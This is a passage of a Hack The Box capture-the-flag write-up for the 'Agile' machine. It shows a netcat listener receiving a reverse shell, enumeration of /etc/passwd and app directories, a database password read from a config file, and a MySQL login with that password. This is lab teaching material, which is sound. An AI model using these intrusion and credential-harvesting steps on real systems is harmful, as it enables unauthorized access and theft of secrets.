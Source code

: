 Got shell:

```console
root@kali:~/htb/Machines/Agile# nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.228.212] 49930
(venv) www-data@agile:/app/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral Movement
### www-data -> corum

```console
(venv) www-data@agile:/app/app$ grep -v nologin /etc/passwd
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
pollinate:x:105:1::/var/cache/pollinate:/bin/false
corum:x:1000:1000:corum:/home/corum:/bin/bash
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false


(venv) www-data@agile:/app/app$ ls -la /app/
total 36
drwxr-xr-x  6 root      root      4096 Mar  8 15:30 .
drwxr-xr-x 20 root      root      4096 Feb 20 23:29 ..
drwxr-xr-x  3 root      root      4096 Jan 23  2023 .pytest_cache
drwxr-xr-x  5 corum     runner    4096 Feb  8 16:29 app
drwxr-xr-x  9 runner    runner    4096 Feb  8 16:36 app-testing
-r--r-----  1 dev_admin www-data    88 Jan 25  2023 config_prod.json
-r--r-----  1 dev_admin runner      99 Jan 25  2023 config_test.json
-rwxr-xr-x  1 root      runner     557 Aug  4 07:15 test_and_update.sh
drwxrwxr-x  5 root      dev_admin 4096 Feb  8 16:29 venv
```

`/app/config_prod.json` is readable by www-data.

```text
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

I got DB credential `superpassuser:dSA6l7q*yIVs$39Ml6ywvgK` so login mysql.

```console
(venv) www-data@agile:/app/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 265
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

```